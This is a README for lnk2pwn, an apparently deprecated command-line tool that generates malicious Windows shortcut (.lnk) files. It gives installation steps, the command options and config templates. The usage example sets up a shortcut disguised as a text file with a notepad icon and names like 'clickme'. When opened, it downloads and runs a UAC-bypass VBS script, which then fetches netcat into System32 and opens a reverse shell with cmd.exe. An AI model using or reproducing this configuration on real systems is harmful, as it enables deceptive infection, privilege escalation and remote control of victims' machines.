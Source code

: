 # Deprecated
This tool is no longer mantainded and it has been moved to a new repository: https://github.com/it-gorillaz/lnk2pwn

# lnk2pwn
Malicious Shortcut(.lnk) Generator

## About
**lnk2pwn** is a cli tool that automates the process of generating malicious .lnk(Windows shortcut) files.

Motivation: https://medium.com/@tommelo/pwned-by-a-shortcut-b21473970944

POC: https://www.youtube.com/watch?v=-D3AaC7V0sY

## Installation
lnk2pwn requires **python2.7** and **wine** to create a Windows shortcut:

```shell
sudo apt-get install python2.7
sudo apt-get install wine
```
You can get the lastest version by clonning this repository:

```shell
git clone https://github.com/tommelo/lnk2pwn
```

## Usage

```shell
python lnk2pwn.py <options>
```

See the options overview:

Short opt | Long opt | Default | Required | Description
--------- | -------- | ------- | -------- | -----------
-g        | --generate    | True        | Yes | generates a malicious .lnk file
-c        | --config-file | config.json | Yes | the shortcut config file
-o        | --output-path | None        | Yes | the output path
-h        | --help        | None        | No  | shows the help usage
N/A       | --version     | None        | No  | shows the application's current version

## The config.json File

The project contains a template file called config.json that defines the attributes of the .lnk file:
```shell
{
    "shortcut": {
        "target_path": "C:\\Windows\\System32\\cmd.exe",
        "working_dir": "C:\\Windows\\System32",
        "arguments": "/c notepad.exe",
        "icon_path": "C:\\Windows\\System32\\notepad.exe",
        "icon_index": null,
        "window_style": "MINIMIZED",
        "description": "lnk2pwn",
        "fake_extension": ".txt",
        "file_name_prefix": "lnk2pwn"
    },

    "elevated_uac": {
        "file_name": "uac_bypass.vbs",
        "cmd": "cmd.exe"
    }
}
```
## Usage Example

Generating a malicious .lnk file that bypasses UAC, downloads and executes netcat:

config.json
```shell
{
    "shortcut": {
        "target_path": "C:\\Windows\\System32\\cmd.exe",
        "working_dir": "C:\\Windows\\System32",
        "arguments": "/c powershell.exe iwr -outf %tmp%\\p.vbs http://127.0.0.1/uac_bypass.vbs & %tmp%\\p.vbs",
        "icon_path": "C:\\Windows\\System32\\notepad.exe",
        "icon_index": null,
        "window_style": "MINIMIZED",
        "description": "trust me",
        "fake_extension": ".txt",
        "file_name_prefix": "clickme"
    },

    "elevated_uac": {
        "file_name": "uac_bypass.vbs",
        "cmd": "cmd.exe /c powershell.exe -nop -w hidden iwr -outf C:\\Windows\\System32\\nc.exe http://127.0.0.1/nc.exe & C:\\Windows\\System32\\nc.exe 127.0.0.1 4444 -e cmd.exe"
    }
}
```
Generating the files:
```shell
python lnk2pwn.py -c config.json -o /var/www/html
```

## Piped Input

You can pipe the config json content to the application:
```shell
cat config.json | python lnk2pwn.py -o /var/www/html
```

## License
This is an open-source software licensed under the [MIT license](https://opensource.org/licenses/MIT).
